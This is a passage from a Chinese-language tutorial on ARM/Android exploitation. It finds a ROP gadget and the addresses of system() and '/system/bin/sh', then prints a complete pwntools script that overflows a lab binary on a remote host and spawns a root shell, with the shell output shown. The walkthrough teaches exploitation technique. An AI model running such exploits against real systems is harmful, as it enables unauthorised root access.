 在这些gadgets中，我们成功找到了一个gadget可以符合我们的要求：

```
0x0000894a : ldr r0, [sp, #0xc] ; add sp, #0x14 ; pop {pc}

```

接下来就是找system和`"/system/bin/sh"`的地址，分别为0x00008404和000096C0：

![p2](http://drops.javaweb.org/uploads/images/f6fb073fd53b985dfc1e3fddcb0640c76dfe9eea.jpg)

![p3](http://drops.javaweb.org/uploads/images/4b8fd8b7e8d92deb87dc7c34f2d977e761d6c8c9.jpg)

要注意的是，因为`system()`函数在plt区域，并没有被编译成thumb指令，而是普通的arm指令，因此并不需要将地址+1。最终level7.py如下：

```
#!/usr/bin/env python
from pwn import *

#p = process('./level7')
p = remote('30.10.20.253',10001)

p.recvuntil('\n')

#0x0000894a : ldr r0, [sp, #0xc] ; add sp, #0x14 ; pop {pc}
gadget1 = 0x0000894a + 1

#"/system/bin/sh"
r0 = 0x000096C0

#.plt:00008404 ; int system(const char *command)
systemaddr = 0x00008404 

payload =  '\x00'*132 + p32(gadget1) + "\x00"*0xc + p32(r0) + "\x00"*0x4 + p32(systemaddr)

p.send(payload)

p.interactive()

```

执行结果如下：

```
$ python level7.py 
[+] Opening connection to 30.10.20.253 on port 10001: Done

[*] Switching to interactive mode
$ /system/bin/id
uid=0(root) gid=0(root) context=u:r:shell:s0

```

0x03 Android上的ASLR
=====
